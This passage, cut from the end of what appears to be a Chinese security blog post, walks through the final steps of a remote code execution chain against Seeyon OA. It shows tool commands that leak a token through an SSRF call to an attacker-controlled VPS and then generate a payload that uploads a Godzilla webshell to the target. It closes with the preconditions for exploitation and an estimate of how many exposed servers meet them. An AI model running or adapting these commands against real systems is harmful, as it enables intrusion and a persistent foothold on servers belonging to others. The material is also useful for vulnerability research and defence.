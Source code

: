     
    java -cp seeyon.jar Main token http://yourvps:yourport/126.xml

  

![]()

图4.8 生成获取token需要的POC

  

修改SSRF请求中的payload为生成的POC，发送请求，可以在服务器端查看获取到的版本信息，如图4.9所示。  

![]()

图4.9 获取token

  

 _ **> Step9：**_  

生成最终利用的POC和EXP，使用下面的命令。其中token需要替换为上一步获取的token。

  * 

    
    
    java -cp seeyon.jar Main rce 26926456886553:7RU5MTY4OTc1NDg1NjI4OA==4AA test #探测漏洞 java -cp seeyon.jar Main rce 26926456886553:7RU5MTY4OTc1NDg1NjI4OA==4AA gsl #生成哥斯拉webshell

  

工具提供两种方式test和gsl，其中test在目标服务器上生成一个seeyon.txt的文件，对应的访问方式为http://www.target.com/seeyon.txt,仅用于测试目的；gsl在目标服务器上传哥斯拉webshell，对应的访问访问为http://www.target.com/logon.jsp
111/111。

![]()

图4.10 生成用于测试用的test POC

  

修改SSRF请求中的payload为生成的POC，发送请求。查看目标服务器的  

seeyon.txt文件，如图4.11所示。

![]()

图4.11 验证漏洞利用是否成功

  

 **0x05 结论**

  

由于这个漏洞已经在手里太长时间了，很多分析是一年以前写的，写这篇文章的时候并没有完整的跟踪整个漏洞，其中细节难免有疏忽，如有不对的地方欢迎大家给我们留言。结合上面的分析可以看出致远OA能RCE的前提条件包括：

  

1、目标服务器出网

2、目标致远开启了60001端口

  

第一个条件是很容易满足的，因为现在致远的服务器需要在线更新，所以基本上都是出网的；第二个条件不一定满足，从实网测绘数据来看约有1/3的致远OA是开启了这个端口的。
